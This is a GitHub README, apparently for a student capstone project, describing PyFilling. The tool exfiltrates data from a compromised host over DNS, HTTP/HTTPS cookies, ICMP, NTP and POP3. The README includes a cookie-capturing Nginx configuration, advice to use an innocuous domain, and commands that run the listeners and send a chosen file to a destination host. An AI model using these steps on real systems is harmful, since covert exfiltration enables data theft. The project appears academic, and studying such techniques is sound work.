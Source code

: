 # PyFilling
PyFilling is the Capstone project of  @supermcpeanut, @a-levsky, & @tchrinder. PyFilling was designed to explore the possibility of developing an automated tool that can identify the optimal time, protocol, and packet size to perform data exfiltration on a compromised host based on its normal network traffic.

## Quick Overview
![Alt text](InternalStructure_PyFilling.jpg?raw=true "Internal Structure Overview")

*  Exfiltration Protocols
    *  DNS
    *  HTTP Cookie
    *  HTTPS Cookie
    *  ICMP
    *  NTP
    *  POP3 Authentication

## Installation & Preparation
In order to preform the exfiltration, the following steps are required:

- We wanted to use as few python servers as possible, as such we relied on Nginx to capture incoming cookies
    *  A simple method of installing and configuring Nginx on Ubuntu can be found [here](https://www.digitalocean.com/community/tutorials/how-to-install-nginx-on-ubuntu-16-04 "Digital Ocean Setup")

    *  If Nginx is used the following changes to etc/nginx/nginx.conf are required
```bash
    ##
    # Logging Settings
    ##
    log_format main '"cookies=$http_cookie;"';
    access_log /var/log/nginx/access.log main;
    error_log /var/log/nginx/error.log;
```
*It should be noted that this change will make the access_log only log cookies.*

*Addtionally to properly use our HTTPS exfiltration the server should have a certificate and an innocuous domain name.*

*Certbot makes it trivial to register a cert, found* [here](https://certbot.eff.org/ "Certbot Setup")

## Running the listeners
All the Protocol listeners/servers need to be setup.
```bash
# serve.py:
# "-a", "--address": Used to specify the IP address or domain name
# "-i", "--protocol": Used to specify the listener protocol
# "-s", "--size": Not used anymore, previously used to specify the size of the receiving
python3 serve.py -a "<IP or Domain Name>" -i "DNS"
python3 serve.py -a "<IP or Domain Name>" -i "NTP"
python3 serve.py -a "<IP or Domain Name>" -i "POP3"
python3 serve.py -a "<IP or Domain Name>" -i "ICMP"
```

## Performing exfiltration
Performing exfiltration can be done in one of two methods:

*  By using PAS to conduct packet analysis and automate the exfiltration
```python
pip install -r requirements.txt
./pas.py
```
*  or by using the exfiltrator independently of PAS
```bash
# "-d", "--destination": Used to specify the destination IP address or domain name which the exfiltrated data will be sent too.
# "-f", "--file": Used to specify the file that will be exfiltrated
# "-i", "--protocol": Used to specify the protocol used during exfiltration
# "-s", "--size": Used to specify the size of each packet to be sent
./exfiltrator.exe -d "<IP or Domain Name>" -f "<filename>" -i "protocol" -s <size>
python3 exfiltrator.py -d "<IP or Domain Name>" -f "<filename>" -i "protocol" -s <size>
```

## Acknowledgements
We wanted to thank the following people:

*  Anyone who had to put up with the stress of Adam slowly losing his mind. 
*  Nick for the general guidance & support. 
*  The works of @ytisf made building the exfiltration modules simpler.
*  De Mello Palheta for the immeasurable number of 4-shot americanos consumed.
*  Maker Pizza for the numerous pizzas eaten.
*  Lastly, @bitofeverything for coming up with the name PyFilling.  

## Disclaimer
Please do not use this for malicious purposes!
